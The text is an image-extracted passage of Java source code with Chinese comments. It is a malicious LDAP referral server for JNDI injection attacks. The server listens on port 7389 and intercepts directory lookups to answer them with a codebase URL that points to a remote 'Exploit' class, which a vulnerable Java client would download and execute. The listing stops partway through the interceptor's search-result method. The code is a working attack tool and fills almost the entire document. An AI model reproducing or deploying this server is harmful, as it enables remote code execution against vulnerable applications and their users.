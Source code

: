     import javax.net.ServerSocketFactory;
    import javax.net.SocketFactory;
    import javax.net.ssl.SSLSocketFactory;
    import javax.swing.text.html.parser.Entity;
    import java.net.InetAddress;
    import java.net.MalformedURLException;
    import java.net.URL;

    /**
    * LDAP 服务端
    */
    public class LDAPRefServer {
        public static final String LDAP_BASE = "dc=example, dc=com";

        public static final String EXPLOIT_CLASS_URL = "http://192.168.xxx.xxx/#Exploit";   // #Exploit 代替 Exploit.class

        public static void main(String[] args) {
            int port = 7389;    // ldap 默认端口 389
            try {
                InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
                config.setListenerConfigs(new InMemoryListenerConfig(
                        "listen",
                        InetAddress.getByName("0.0.0.0"),
                        port,
                        ServerSocketFactory.getDefault(),
                        SocketFactory.getDefault(),
                        (SSLSocketFactory) SSLSocketFactory.getDefault()
                ));

                /* 指定 EXPLOIT_CLASS_URL， OperationInterceptor 实现 InMemoryOperationInterceptor 抽象类 */
                config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(EXPLOIT_CLASS_URL)) );

                config.setSchema(null);
                config.setEnforceAttributeSyntaxCompliance(false);
                config.setEnforceSingleStructuralObjectClass(false);
                InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);

                System.out.println("Listening on 0.0.0.0: " + port);
                ds.startListening();
            }catch (Exception e){

            }
        }

        /**
        * OperationInterceptor 实现 InMemoryOperationInterceptor 抽象类
        */
        private static class OperationInterceptor extends InMemoryOperationInterceptor {
            private URL codebase;

            private OperationInterceptor(URL url) {
                this.codebase = url;
            }

            @Override
            public void processSearchResult(InMemoryInterceptedSearchResult result) {
                String base = result.getRequest().getBaseDN();
                Entry e = new Entry(base);
                try {
                    sendResult(result, base, e);
                }catch (Exception ex){
